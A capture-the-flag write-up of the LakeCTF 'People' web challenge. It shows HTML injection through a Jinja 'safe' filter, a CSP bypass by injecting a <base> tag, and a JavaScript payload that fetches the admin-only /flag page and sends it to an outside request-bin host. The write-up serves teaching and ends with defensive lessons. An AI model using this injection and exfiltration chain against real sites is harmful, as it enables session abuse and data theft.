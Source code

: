 # LakeCTF - People Challenge Writeup (Web)

# Part 0: Reconnaissance
We receive a link to the challenge environment and the source code + Docker files for the backend. 
The target webpage has only a few very simple functionalities: register, login, edit profile and report profile.
![Registering page](/Assets/Pasted%20image%2020220926184329.png)

Profile page
![Profile page](/Assets/Pasted%20image%2020220926184513.png)

The most interesting functionality of course is "Report profile", because when clicking it, the user is displayed a text saying "Thank you, an admin will review your report shortly.", hinting that there is a bot in the backend, that we somehow have to abuse. 

The flag in this challenge is an environment variable that's only admin accessible on the path `/flag`
```Python
@main.route('/flag')
def flag():
    if request.cookies.get('admin_token') == admin_token:
        return os.getenv('FLAG') or 'flag{flag_not_set}'
    else:
        abort(403)
```

# Part 1: Strategizing
The source code indeed reveals that there is a bot with an admin cookie that will shortly visit your profile page.
```Python
from pyppeteer import launch
import asyncio

async def visit(user_id, admin_token):
    url = f'http://web:8080/profile/{user_id}'
    print("Visiting", url)
    browser = await launch({'args': ['--no-sandbox', '--disable-setuid-sandbox']})
    page = await browser.newPage()
    await page.setCookie({'name': 'admin_token', 'value': admin_token, 'url': 'http://web:8080', 'httpOnly': True, 'sameSite': 'Strict'})
    await page.goto(url)
    await asyncio.sleep(3)
    await browser.close()
```

My first strategy idea of leaking the bot's `admin_token` cookie proved to be false, because the cookie has the `httpOnly` flag set and this prevents if from being accessed by JavaScript.  

My second strategy idea is to implant an XSS to the user's profile that makes a request to `/flag` and then sends the data over to us. The logic seems sound, so on the execution.

# Part 2: Injection search
To implant out malicious JavaScript we needed to find an input field that was unsanitized. Problem is that Flask (the web framework in this challenge) by default automatically escapes HTML from inputs when it renders templates.
For a while we were looking at the user's biography input section, since it supported Markdown input and used the Marked JS library for parsing that input. Though it is sanitized using the DOMPurify library, similar configurations have in the past been exploitable.
```JavaScript
  var markdown = document.querySelectorAll(".markdown");
  for (var i = 0; i < markdown.length; i++) {
	var html = marked.parse(markdown[i].innerHTML, {
	  breaks: true
	});
	html = DOMPurify.sanitize(html, { USE_PROFILES: { html: true } });
	markdown[i].innerHTML = html;
  }```

We were however unable to find an XSS this way. After some searching one of us went to check what the `safe` option in the template input meant.
```JavaScript
{% set description = '%s at %s' % (user['title'], user['lab']) %}
{% block title %}{{user['fullname']}} | {{description|safe}}{% endblock %}
```

It turned out that `safe` unintuitively means "trust this input, it's safe, don't escape it". This was well phrased in this [StackOverflow thread](https://stackoverflow.com/questions/48975383/why-to-use-safe-in-jinja2-python). We therefore had our injection point! Either the `title` or the `lab` value from the user's profile. 

# Part 3: Exploitation
We then quickly rushed to use this injection point for our JavaScript and indeed we were able to inject the payload `<script>alert(1)</script>` but disappointingly, the content of the script wasn't executed. Turned out that we were being blocked by the site's CSP and required a nonce value to execute our script.

![CSP](/Assets/Pasted%20image%2020220928134157.png)

Other scripts had their nonce injected.
```HTML
    <script src="/static/js/marked.min.js" nonce="{{ csp_nonce() }}"></script>
    <script src="/static/js/purify.min.js" nonce="{{ csp_nonce() }}"></script>
```

After searching for some [HTML scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) searching I came across the possibility of setting our own `<base>` tag. Since both scripts were loaded using a relative path, we could serve them on our own web server and by setting the `<base>` tag to out web server have the bot query our scripts when visiting our profile.

We first used a request bin as a proof of concept and registered a new user with our payload `</title><base href="https://enz1qwuixexc.x.pipedream.net/">` and it worked!
![](/Assets/Pasted%20image%2020220928135616.png)

![](/Assets/Pasted%20image%2020220928144055.png)

As our PoC worked, we then just made a short script that fetches the content of `/flag`, uploaded it to our web server as `marked.min.js` and reported our profile.
```JavaScript
function reqListener () {
  fetch("https://enj1mevg4ope.x.pipedream.net/?"+this.responseText);
}
const req = new XMLHttpRequest();
req.addEventListener("load", reqListener);
req.open("GET", "http://web:8080/flag");
req.send();
```
This nicely returned us the flag `EPFL{Th1s_C5P_byp4ss_1s_b4sed}`.

# Part 4: Take-aways
There are some security related take-aways from this challenge:
1. CTF solving wise - don't assume that when an option specifies `safe` it is actually "safe". Recheck what each parameter/flag means if you don't know.
2. As a developer - there are ways around CSP-s so it is important to use full references for scripts instead of relative references.